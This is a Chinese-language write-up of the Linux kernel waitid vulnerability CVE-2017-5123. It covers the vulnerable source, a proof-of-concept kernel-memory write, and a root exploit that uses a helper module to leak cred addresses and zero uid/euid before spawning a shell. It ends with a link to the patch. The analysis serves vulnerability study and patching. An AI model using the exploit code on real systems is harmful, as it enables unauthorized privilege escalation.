





## 系统信息
    系统:ubuntu 14.04 64位
    内核版本：4.13 (KASLR关闭 但是参考文档一中的哥们已经提到如何绕过:利用对非法地址写的保护)
## 漏洞背景
CVE-2017-5123是一位葡萄牙人Federico Bento 所发现，由于在系统调用waitid实现中，未对用户输入的指针进行检测，造成任意地址写漏洞。该影响的内核版本为4.12-4.13.

## 漏洞产生原因
waitid系统调用原型：
```c
int waitid(idtype_t idtype, id_t id, siginfo_t *infop, int options);
```
waitid系统调用的实现(漏洞产生的原因)：
``` c
// /kernel/exit.c
SYSCALL_DEFINE5(waitid, int, which, pid_t, upid, struct siginfo __user *,
		infop, int, options, struct rusage __user *, ru)
{
	struct rusage r;
	struct waitid_info info = {.status = 0};
	long err = kernel_waitid(which, upid, &info, options, ru ? &r : NULL);
	int signo = 0;
	if (err > 0) {
		signo = SIGCHLD;
		err = 0;
	}

	if (!err) {
		if (ru && copy_to_user(ru, &r, sizeof(struct rusage)))
			return -EFAULT;
	}
	if (!infop)
		return err;

	user_access_begin();                                // (1)
	unsafe_put_user(signo, &infop->si_signo, Efault);   
	unsafe_put_user(0, &infop->si_errno, Efault);
	unsafe_put_user((short)info.cause, &infop->si_code, Efault);
	unsafe_put_user(info.pid, &infop->si_pid, Efault);
	unsafe_put_user(info.uid, &infop->si_uid, Efault);
	unsafe_put_user(info.status, &infop->si_status, Efault);
	user_access_end();
	return err;
Efault:
	user_access_end();
	return -EFAULT;
}
```
可以看到在(1)处，未对用户输入的infop指针参数进行检测，直接进行使用，造成任意地址写
## 漏洞验证
首先我们在内核内存中申请一块内存，然后利用该漏洞写内核内存,看是否能够写入数据

利用内核模块申请内存:
```c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/fs.h>
#include <linux/device.h>
#include <linux/slab.h>
#include <linux/string.h>

static void *my_ptr;
static int my_strlen = 256;

static int m_init(void){

    my_ptr = kzalloc(my_strlen,GFP_KERNEL);//申请内核内存
    memset(my_ptr,'A',my_strlen-1);//使其成为一个'AAAAAAA....'字符串

    if(my_ptr == NULL){
        printk("kmalloc error\n");
        return -1; 
    }   
    
    printk("(m_init)ptr addr : %p , value:%s\n",my_ptr,(char*)my_ptr);

    return 0;
}

static void m_exit(void){
    printk("(m_exit)ptr addr : %p , value:%s\n",my_ptr,(char*)my_ptr);
    kfree(my_ptr);
}

module_init(m_init);
module_exit(m_exit);
MODULE_LICENSE("GPL");
```
makefile编写如下:
```makefile
obj-m += drv1.o

CC=gcc
ccflags-y += "-g"
ccflags-y += "-O2"

all:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

加载内核模块，然后利用dmesg，我们可以得到内核模块中申请到的内核内存地址且被初始化为全为A的字符串，



然后写一个利用waitid对我们刚刚申请的内核内存地址进行写的C程序:
```c
#include <sys/wait.h>
#include <sys/types.h>
#include <sys/mman.h>
#include <asm/unistd.h>
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <assert.h>
#include <errno.h>
#include <string.h>

int main(void){
    void *ptr = (void*)0xffff8800294eb900;//该值为申请到的内核内存地址

    int pid = fork();
    if(pid == -1){
        printf("fork error:%s",strerror(errno));
        exit(-1);
    }   

    if(pid > 0){ 
        int retval = 0;
        retval = waitid(P_PID,pid,ptr,WEXITED|WSTOPPED|WCONTINUED);

        if(retval == -1){
            printf("waitid error:%s\n",strerror(errno));
            exit(-1);
        }
    
    }   
    else if(pid == 0){ 
        exit(0);
    }   

    return 0;
}
```
编译并执行,然后卸载我们刚刚加载的模块，卸载该模块，其会打印我们申请到的内核内存中的数据.


可以看到，我们已经成功的写掉内核内存数据

## 漏洞利用
原理:每一个进程都有一个cred结构,该结构用于管理进程权限,如果我们使cred中的euid和uid为0，则可以使该进程获得root权限

利用过程:
1. 创建许多进程，然后利用该漏洞对内存进行写0
2. 进程通过调用getuid 检测是否为0，为0则击中cred结构，然后继续写euid为0获得root权限

为了使利用更加成功，我们使用内核模块来泄露进程cred结构中uid和euid的具体位置（我通过创建5000千个进程，来改写进程的uid，然后测试了n多次，只成功命中的1次，虚拟机死机了n-1次）
```c
#include <linux/module.h>
#include <linux/init.h>
#include <linux/kernel.h>
#include <linux/sched.h>
#include <linux/fs.h>        // for basic filesystem
#include <linux/proc_fs.h>    // for the proc filesystem
#include <linux/seq_file.h>    // for sequence files

static struct proc_dir_entry* jif_file;

static int
jif_show(struct seq_file *m, void *v)
{
    return 0;
}

static int
jif_open(struct inode *inode, struct file *file)
{
     printk("UID: 0x%p, EUID: 0x%p \n", &current->cred->uid,&current->cred->euid);
     return single_open(file, jif_show, NULL);
}

static const struct file_operations jif_fops = {
    .owner    = THIS_MODULE,
    .open    = jif_open,
    .read    = seq_read,
    .llseek    = seq_lseek,
    .release    = single_release,
};

static int __init
jif_init(void)
{
    jif_file = proc_create("jif", 0, NULL, &jif_fops);

    if (!jif_file) {
        return -ENOMEM;
    }

    return 0;
}

static void __exit
jif_exit(void)
{
    remove_proc_entry("jif", NULL);
}

module_init(jif_init);
module_exit(jif_exit);

MODULE_LICENSE("GPL");
```

然后利用程序如下：

```c
#include <sys/wait.h>
#include <sys/types.h>
#include <sys/mman.h>
#include <asm/unistd.h>
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <errno.h>
#include <string.h>
#include <fcntl.h>


void writeZero(void *addr);//write zero to addr
void leak_uid_euid_addr();//leak uid,euid address
int main(void){
    void *uidAddr = NULL,*euidAddr = NULL;
    leak_uid_euid_addr();

    printf("uid  addr:");
    scanf("%p",&uidAddr);

    printf("euid addr:");
    scanf("%p",&euidAddr);

    writeZero(uidAddr);
    writeZero(euidAddr);

    if(getuid() == 0 && geteuid() == 0){
        printf("exploit success!\n");
        system("/bin/sh");
    }
    else{
        printf("exploit fauled!\n");
    }   
    
    return 0;
}
void leak_uid_euid_addr(){//leak uid,euid address
    int fd = open("/proc/jif",O_RDONLY);
    if(fd == -1){
        exit(-1);
    }
    close(fd);
}

void writeZero(void *addr){//write zero to addr
    void *ptr = (void*)((char*)addr-4);

    int pid = fork();

    if(pid > 0){ //parent
        int retval = 0;

        retval = waitid(P_PID,pid,ptr,WEXITED|WSTOPPED|WCONTINUED);

        if(retval != -1){
            printf("write %p success\n",addr);
        }
        else{
            printf("write %p failed,strerror:%s\n",addr,strerror(errno));
            exit(-1);
        }
    }
    else if (pid == 0){//child
        exit(0);
    }
}
```
编译上面的模块代码和利用程序，然后加载模块。运行利用程序

.

此时通过我们加载的内核模块获得uid euid的地址



将其输入我们的利用程序，然后看到成功利用:


## 漏洞修复
更新新版本的内核,或根据：

https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=4c48abe91be03d191d0c20cc755877da2cb35622

进行patch
## 参考文档

1. https://reverse.put.as/2017/11/07/exploiting-cve-2017-5123/
2. https://salls.github.io/Linux-Kernel-CVE-2017-5123/
3. https://www.twistlock.com/2017/12/27/escaping-docker-container-using-waitid-cve-2017-5123/